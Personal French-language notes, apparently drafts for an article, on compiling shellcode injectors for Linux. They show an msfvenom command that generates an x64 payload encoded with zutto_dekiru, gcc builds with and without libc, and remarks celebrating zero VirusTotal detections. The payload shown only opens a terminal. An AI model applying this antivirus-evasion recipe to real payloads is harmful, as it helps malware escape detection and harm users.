 -> ça fonctionne, on le fait en tableau c: 

	$ msfvenom --platform linux -p linux/x64/exec CMD=x-terminal-emulator -e x64/zutto_dekiru -i 3 -f c
	
le code cf ~/workspace/foss/articles/2025/01/inject.c
	
	$ gcc inject_crt.c -o inject_crt
	$ ls -lh inject_crt
	-rwxr-xr-x 1 asemmar asemmar 16K May 31 05:18 inject_crt
	$ readelf --syms -W inject_crt | grep symtab
	Symbol table '.symtab' contains 37 entries:
	$ ./inject_crt
	$ ldd inject_crt
	        linux-vdso.so.1 (0x00007ffce4dc8000)
	        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd12dbb6000)
	        /lib64/ld-linux-x86-64.so.2 (0x00007fd12ddba000)

détecté par aucun security vendor dans virustotal lmao



### version sans la libc
cf inject_nocrt.c

	
	$ gcc inject_nocrt.c -o inject_nocrt -nolibc -nostartfiles -e _start
	$ ls -lh inject_nocrt
	-rwxr-xr-x 1 asemmar asemmar 14K May 31 05:42 inject_nocrt
	$ ldd inject_nocrt
			statically linked
	$ readelf --syms -W inject_nocrt | grep symtab
	Symbol table '.symtab' contains 12 entries:
	$ ./inject_nocrt
	You need to run terminator in an X environment. Make sure $DISPLAY is properly set


toujours 0 détections virustotal lmao

à ma connaissance l'exemple avec l'api NT n'a pas d'équivalent sous linux (on utilise tout le temps la libc ya pas de conneries kernel32 vs nt api)

annexe: pourquoi j'ai pas le manuel gcc sous debian?
----------------------------------------------------

$ apt install gcc-doc

